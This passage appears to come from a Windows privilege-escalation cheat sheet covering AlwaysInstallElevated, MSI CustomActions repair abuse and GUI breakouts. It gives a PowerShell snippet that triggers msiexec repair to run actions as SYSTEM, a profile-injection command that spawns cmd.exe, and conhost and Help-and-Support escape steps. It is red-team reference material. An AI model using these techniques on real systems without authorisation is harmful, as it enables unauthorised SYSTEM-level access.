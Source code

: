 Technique also available in : * Metasploit : `exploit/windows/local/always_install_elevated` * PowerUp.ps1 : `Get-RegistryAlwaysInstallElevated`, `Write-UserAddMSI`

### CustomActions

> Custom Actions in MSI allow developers to specify scripts or executables to be run at various points during an installation

- [mgeeky/msidump](https://github.com/mgeeky/msidump) - a tool that analyzes malicious MSI installation packages, extracts files, streams, binary data and incorporates YARA scanner.
- [activescott/lessmsi](https://github.com/activescott/lessmsi) - A tool to view and extract the contents of an Windows Installer (.msi) file.
- [mandiant/msi-search](https://github.com/mandiant/msi-search) - This tool simplifies the task for red team operators and security teams to identify which MSI files correspond to which software and enables them to download the relevant file.

Enumerate products on the machine

```
wmic product get identifyingnumber,name,vendor,version
```

Execute the repair process with the `/fa` parameter to trigger the CustomActions. We can use both IdentifyingNumber `{E0F1535A-8414-5EF1-A1DD-E17EDCDC63F1}` or path to the installer `c:\windows\installer\XXXXXXX.msi`. The repair will run with the NT SYSTEM account.

```
$installed = Get-WmiObject Win32_Product
$string= $installed | select-string -pattern "PRODUCTNAME"
$string[0] -match '{\w{8}-\w{4}-\w{4}-\w{4}-\w{12}}'
Start-Process -FilePath "msiexec.exe" -ArgumentList "/fa $($matches[0])"
```

Common mistakes in MSI installers:

- Missing quiet parameters: it will spawn `conhost.exe` as `NT SYSTEM`. Use `[CTRL]+[A]` to select some text in it, it will pause the execution.
    - conhost -> properties -> "legacy console mode" Link -> Internet Explorer -> CTRL+O –> cmd.exe
- GUI with direct actions: open a URL and start the browser then use the same scenario.
- Binaries/Scripts loaded from user writable paths: you might need to win the race condition.
- DLL hijacking/search order abusing
- PowerShell `-NoProfile` missing: Add custom commands into your profile
    

- ```
    new-item -Path $PROFILE -Type file -Force
    echo "Start-Process -FilePath cmd.exe -Wait;" > $PROFILE
    ```
    

## EoP - Insecure GUI apps

Application running as SYSTEM allowing an user to spawn a CMD, or browse directories.

Example: "Windows Help and Support" (Windows + F1), search for "command prompt", click on "Click to open Command Prompt"

